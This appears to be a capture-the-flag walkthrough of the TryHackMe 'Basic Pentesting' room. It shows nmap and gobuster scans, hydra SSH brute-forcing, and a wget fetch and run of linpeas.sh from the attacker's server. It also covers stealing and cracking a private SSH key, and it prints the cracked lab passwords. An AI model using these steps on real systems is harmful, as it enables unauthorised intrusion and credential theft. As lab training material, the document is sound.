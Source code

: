 # Basic Pentesting: Unraveling the Machine - A TryHackMe Walkthrough

This write-up documents the steps taken to successfully complete the [Basic Pentesting JT TryHackMe room](https://tryhackme.com/room/basicpentestingjt). We'll cover everything from initial enumeration to privilege escalation, detailing the tools and techniques used.

 ## Task 1: Web App Testing and Privilege Escalation  
## 1. Setting the Stage: Deploying and Connecting
*(No answer needed here, as this is the initial setup phase. With the machine deployed and our network connected, we're ready to dive in!)*
   
## 2. Initial Reconnaissance: Uncovering Exposed Services
   Our first move was to understand what services the target machine (`10.10.236.69`) was running. We used `nmap` for a thorough port and service scan:  
   ```bash 
   nmap -sS -sC -A -p- -T5 10.10.236.69 | tee nmap-enum
  ```
   ![Screenshot 2025-06-02 192004](https://github.com/user-attachments/assets/0e49b99c-592d-4896-8035-b05887fe2a40)  
   - This comprehensive scan quickly revealed several interesting open ports:  
   - 22 (SSH): A standard remote access service.  
   - 80 (HTTP): A web server, ripe for investigation.  
   - 139 and 445 (SMB): Indicating potential Windows shares.  
   - 8009 (AJP): Likely a Tomcat AJP connector, often paired with Apache.  
   - 8080 (HTTP): Another HTTP service, commonly a default Tomcat port.  

## 3. What is the name of the hidden directory on the web server (enter name without /)?  
   With port 80 (HTTP) open, our attention turned to the web server. We used gobuster to aggressively search for hidden directories that might not be publicly linked.  
   ```bash 
   gobuster dir -u http://10.10.236.69/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 64 -o gobuster-bruteforce
   ``` 
   ![Screenshot 2025-06-02 192530](https://github.com/user-attachments/assets/455e6c9f-5473-44c7-a322-737c30d2d7a5)  
   The scan quickly hit gold, revealing a significant directory: development  

## 4. Unmasking Users: Brute-Forcing Credentials  
   *(This stage encompasses the next few steps where we identify usernames and passwords.)*  

## 5. Identifying Potential Usernames  
   Before we could try to log in, we needed valid usernames. We leveraged `enum4linux` to enumerate SMB shares and identify system users:  
   ```bash 
   enum4linux -a 10.10.236.69 | tee enum4linux-out
   ```  
   ![Screenshot 2025-06-02 192958](https://github.com/user-attachments/assets/24886eed-ced9-482f-b711-5442605c4785)  
   This enumeration provided two crucial usernames: jan and kay.  
   
## 6. Cracking the Password for SSH  
   With the username `jan` in hand, our next logical step was to attempt an SSH login. We used `hydra` to brute-force the password against the SSH service, combining a list of common users with a robust password list.  
   ```bash
   hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/rockyou.txt ssh://10.10.236.69 -t 4
   ```
   ![Screenshot 2025-06-02 194006](https://github.com/user-attachments/assets/e50d74af-8af7-427b-9d51-48791dc50737)  
   Success! `hydra` found the password for `jan`: armando

## 7. Gaining Initial Access: The SSH Gateway  
   With jan's credentials (jan:armando), we could now establish our first foothold on the server.  
   ```bash 
   ssh jan@10.10.236.69
   ```
   ![Screenshot 2025-06-02 194300](https://github.com/user-attachments/assets/6d9b31c2-2d07-4582-b7ef-982476f42e49)  
   The service we used to access the server was **SSH**.

## 8. Post-Exploitation: Hunting for Privilege Escalation Vectors  
   Once inside as `jan`, our next mission was to find a way to elevate our privileges. `linpeas.sh` is an excellent script for automatically identifying potential escalation paths.  
   
   First, we needed to transfer `linpeas.sh` to the target machine. We set up a simple HTTP server on our local attacking machine:  
   ```bash 
   On my local machine:  
   python3 -m http.server 8000
   ```
  Then, from the target machine, we downloaded and executed `linpeas.sh`:
  ```bash
   On the target machine (as jan):  
   wget http://10.50.46.117:8000/linpeas.sh  
   chmod +x linpeas.sh  
   ./linpeas.sh
   ```
   ![Screenshot 2025-06-02 201123](https://github.com/user-attachments/assets/48c774f9-26b8-4684-8013-a8acdcc52098)  
   `linpeas.sh` ran its checks and, importantly, highlighted information about another user on the system: kay.  

## 9. Discovering Another User  
   As revealed by `linpeas.sh`, the other user found on the system is: kay  

## 10. Privilege Escalation: A Key to Kay's Kingdom  
  Finding the `kay` user was a significant lead! A quick check of `/home/kay/.ssh/` revealed a private SSH key (`id_rsa`). This was our golden ticket for  privilege escalation to `kay`'s account.  
  1. Transferring the Key: We began by securely copying `kay`'s private key to our local machine:  
  ```bash
    scp jan@10.10.236.69:/home/kay/.ssh/id_rsa  
  ```
  2. **Setting Permissions**: SSH keys require strict permissions to be usable:  
  ```bash
    chmod 600 id_rsa
  ```
  3. Attempting SSH Login: We tried to log in as `kay` using the transferred key:  
  ```bash
    ssh -i id_rsa kay@10.10.236.69
  ```
  A minor setback: the key was **passphrase protected**.  
  
  4. **Cracking the Passphrase**: No problem! We used `ssh2john.py` to convert the key into a hash, and then `John the Ripper` with the `rockyou.txt` wordlist to crack the passphrase.  
  ```bash
    python3 /opt/john/ssh2john.py id_rsa > id_rsa.hash  
    john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
  ```
  ![Screenshot 2025-06-02 202337](https://github.com/user-attachments/assets/5120b8ca-6842-4578-8608-89e8f99ee753)  
    `John the Ripper` quickly revealed the passphrase: **beeswax** 
    
  5. **Final Login as Kay**: With the passphrase in hand, we could finally connect to `kay`'s account:  
  ```bash
    ssh -i id_rsa kay@10.10.236.69
  ```
  Once authenticated as kay, we listed the files in the home directory and discovered pass.bak:
  ![Screenshot 2025-06-02 202853](https://github.com/user-attachments/assets/23b4ea14-4593-4574-9170-0998f0c86013)  
  ```bash
    ls -la  
    cat pass.bak
  ```
  The content of pass.bak was:  
  `heresareallystrongpasswordthatfollowsthepasswordpolicy$$`  
  
  This concludes the walkthrough for the Basic Pentesting JT room. We successfully enumerated services, found hidden directories, brute-forced user credentials, gained initial SSH access, and finally, escalated privileges to another user using a compromised SSH key.
